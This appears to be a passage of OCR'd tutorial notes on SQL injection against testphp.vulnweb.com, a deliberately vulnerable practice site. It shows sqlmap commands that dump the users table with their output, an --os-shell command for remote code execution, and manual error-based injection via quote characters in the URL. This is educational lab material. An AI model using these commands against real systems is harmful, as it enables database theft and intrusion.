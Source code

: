 o	sqlmap -r sql.txt -D acuart -T users --columns --dump
	Database: acuart
	Table: users
	[8 columns]
	+---------+--------------+
	| Column  | Type         |
	+---------+--------------+
	| address | mediumtext   |
	| cart    | varchar(100) |
	| cc      | varchar(100) |
	| email   | varchar(100) |
	| name    | varchar(100) |
	| pass    | varchar(100) |
	| phone   | varchar(100) |
	| uname   | varchar(100) |
	+---------+--------------+
o	sqlmap -r sql.txt -D acuart -T users -C uname, pass –dump
	Database: acuart
	Table: users
	[1 entry]
	+-------+------+
	| uname | pass |
	+-------+------+
	|  test | test |
	+-------+------+
o	It is critical vulnerability; anyone can steal database.
o	Remote Code Execution (RCE)
	Attackers remotely execute commands to place malware or other malicious code on your computer or network.
	sqlmap -r sql.txt --os-shell
•	Can get root privileges if it is vulnerable.

•	Exploit only using address bar | Manual Injection
o	For http://testphp.vulnweb.com/artists.php?artist=1
o	Check whether it is vulnerable or not.
	Error base technique by adding symbol at the end of input which will try to break the query. Symbols include:
•	Single quote (') - used to close a string and cause a syntax error.
•	Quote (") - used to close a string and cause a syntax error.
•	Parentheses () - used to group and order the statements, which can cause a syntax error if not closed properly.
•	Dash (-) - used to comment out the rest of a line, which can cause a syntax error if not closed properly.
•	Semicolon (;) - used to separate multiple SQL statements, which can cause a syntax error if not closed properly
•	Union operator (UNION) - used to combine the results of two or more SELECT statements, which can cause a syntax error if not used correctly.
•	Logical operators (AND, OR, NOT) - used to combine or negate conditions in a SQL statement, which can cause a syntax error if not used correctly.
•	Wildcard characters (%) and (_) - used to match any number of characters or a single character respectively, which can cause a syntax error if not used correctly.
	http://testphp.vulnweb.com/artists.php?artist=1’
	http://testphp.vulnweb.com/artists.php?artist=1”
	It it shows error like: that mean its vulnerable for SQLi.
•	Warning: mysql_fetch array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 64
